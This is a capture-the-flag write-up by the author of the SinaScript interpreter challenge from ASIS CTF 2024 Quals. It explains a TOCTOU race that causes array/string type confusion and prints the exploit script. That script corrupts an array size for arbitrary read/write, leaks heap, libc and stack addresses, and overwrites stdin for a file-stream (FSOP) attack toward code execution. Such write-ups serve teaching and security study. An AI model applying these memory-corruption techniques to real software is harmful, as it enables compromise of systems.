 # ASIS CTF 2024 Quals - SinaScript

**Summary**: a TOCTOU race condition when accessing an index of an array in the SinaScript language interpreter that will lead to a type confusion of arrays with strings and OOB read/write on the heap. The OOB read/write on the heap can be used to overwrite the size field of an array to get arbitrary read/write, and then FSOP to RCE.

## Intro

SinaScript was a programming language interpreter that I wrote in C for this challenge initially, but then I decided to make it a seperate project and keep working on it. This challenge was compiled from [this commit of SinaScript](https://github.com/sinamhdv/sinascript/tree/dc579704e60534ac0c8d5a6087d2ef10323211c0). The `sinascript` binary, a `Dockerfile` to simulate the remote environment, and the `run.py` script to receive source code from players and run it with `sinascript` were given to the players. The `exploit.ss` file (which can also be found [here](https://github.com/sinamhdv/sinascript/blob/dc579704e60534ac0c8d5a6087d2ef10323211c0/exploits/exploit.ss)) is the solution to this challenge.

The challenge will run `run.py` upon connection from players, which will ask them to provide arbitrary SinaScript code with length less than 10KB and will then run the code with the `sinascript` interpreter binary and display the output.

## Vulnerability

The vulnerability is in the `vm_get_index_reference` function in `vm.c`. SinaScript has multithreading functionality through the use of `async` keyword. `async` will basically spawn a new thread and have the thread execute the subtree of the `async` node in the AST, while the main thread will continue execution after that block.

```js
a = 0;
async {
	a = 1;
}
a = 2;
show(a, "\n");
```

It uses a mutex to prevent race conditions in some critical code paths. However, it doesn't use the mutex in the `vm_get_index_reference` function, which causes a TOCTOU race condition. Consider the code of this function running for an array access operation like `arr[1+2]`:

```C
static SSValue *vm_get_index_reference(AstNode *node) {
	DBGCHECK(node->type == AST_INDEX);
	DBGCHECK(node->subs.size == 2);
	AstNode *arr_name = node->subs.arr[0];
	AstNode *index_expr = node->subs.arr[1];
	if (arr_name->type != AST_IDENTIFIER)
		fatal_runtime_error(node);
	SSValue *arr_ref = vm_get_var_reference(&(arr_name->ident), 0);
	if (arr_ref == NULL)
		fatal_runtime_error(node);

	// step 1: checking the type of the variable 'arr' is an array
	if (arr_ref->type != SSVALUE_ARR)
		fatal_runtime_error(node);

	// step 2: evaluating the 1+2 expression into a number that will be used as the index to access
	SSValue index_val = vm_evaluate_expression(index_expr);
	if (index_val.type != SSVALUE_NUM)
		fatal_runtime_error(node);

	// step 3: do bounds-checking on the array and access the index
	SSArray *arr = ((SSArray *)arr_ref->value);
	size_t access_idx = (size_t)index_val.value;
	if (access_idx >= arr->size)
		fatal_runtime_error(node);
	return &arr->data[access_idx];
}
```

In the code above, the check for the type of the array is done first in step 1, and then an arbitrarily long computation via `vm_evaluate_expression` is done before actually accessing the index of the array. Since we're not using the mutex lock in this function, another thread could change the type of the variable `arr` between steps 1 and 3 (and while `vm_evaluate_expression` is running in step 2). We can change the type of `arr` to a string. Looking at the string and array structs in SinaScript:

```C
typedef struct SSArray {
	SSHeapHeader hhdr;
	size_t size;
	SSValue data[];
} SSArray;

typedef struct SSString {
	SSHeapHeader hhdr;
	size_t size;
	char data[];
} SSString;
```

They are mostly similar. However, index `i` of an array is at offset `i*sizeof(SSValue)` which is `i*16` from its `data` field, while index `i` of a string is at offset `i*sizeof(char)` so just `i`. This way, by changing `arr` to a string of length 16, we can access indexes up to `16*16` bytes into the `data` field, while the string itself only allocates `16` bytes for its data buffer.

## Exploitation

From `exploit.ss`:

```js
arr = [5];
str = "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDD";
oob = [9,9,9,9];
refoob = oob;
async {
	arr = str;
}

arr[5+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0
+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0
+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0
+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0
+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0
+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0
+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0
+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0
+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0
+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0
+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0+0] = -1;

async{}

show(arr, "\n");
```

The `5+0+0+0+...` in the index field is there to make the step 2 of the `vm_get_index_reference` function take longer so that the other thread in the async block can have enough time to replace `arr` with a string. This also might depend on the CPU speed of the computer running the code. To make the exploit work on the remote CTF server, I had to increase the number of `+0`s in that expression to make the process of evaluating it take even longer. Then by looking at the heap layout in gdb I realized that writing to index `5` of the now-corrupted `arr` will overwrite `oob`'s size field. So I just set the size of `oob` to -1 (`0xffffffffffffffff`). This gives me arbitrary read/write over the whole process memory (although, since array members are `SSValue`s, we can only read/write qwords at addresses with a low-nibble of 8 and the qword before it not being the `SSVALUE_ARR` or `SSVALUE_STR` types).

```js
heapLeak = 0 + oob[-16];
heapLeak = heapLeak + 27 * 16;
show("heapLeak:", heapLeak, "\n");

tmp = [7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,
	7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7,7];
[1,1,1,1,1,1,1,1];
tmp = 0;

libcLeak = 0 + oob[35];
libcLeak = libcLeak - 2112288;
show("libcLeak:", libcLeak, "\n");

stackLeak = 0 + oob[(libcLeak + 2114416 - heapLeak) / 16];
show("stackLeak:", stackLeak, "\n");
```

Then in the code above (also from `exploit.ss`) I read a heap leak from the heap. Then, I allocate a big chunk, allocate (and immediately free) a smaller tcache-bin sized chunk (to prevent the big chunk from being consolidated with top chunk after being freed), and free the big chunk (`tmp`) by deleting its reference (this version of SinaScript uses reference counting to manage the heap), to get the chunk into unsorted bin and get a libc pointer on the heap.

Then, I read that libc pointer to get a libc leak, and then read and leak a stack value from the stack.

The reason I'm doing `libcLeak = 0 + ...` or basically adding 0 to every leaked value is that the values read from memory using `oob` might be `SSValue`s that have an invalid `type` field, but an addition of the form `<number> + <invalid type>` will actually fix the invalid type and change it to a number (this is due to how the function `SSValue_add` function in `ssvalue.c` handles the types of the operands). So we won't get a segfault or issue due to invalid types when using or printing those leaks.

```js
stdin = libcLeak + 2111712;
oob[(stdin + 48 - heapLeak) / 16] = stdin;
alert(1234);
alert(1234);
```

Now I overwrite `stdin` struct's `_IO_buf_base` pointer to point to the `stdin` struct itself, and make to calls to `alert` (which will call `getchar` internally) to do FSOP. For the next steps of the exploitation, a python script will receive the leaked values from the remote and use them to send an FSOP payload to get remote code execution. The `send_exploit_fsop2.py` script does this by doing an FSOP vtable attack.
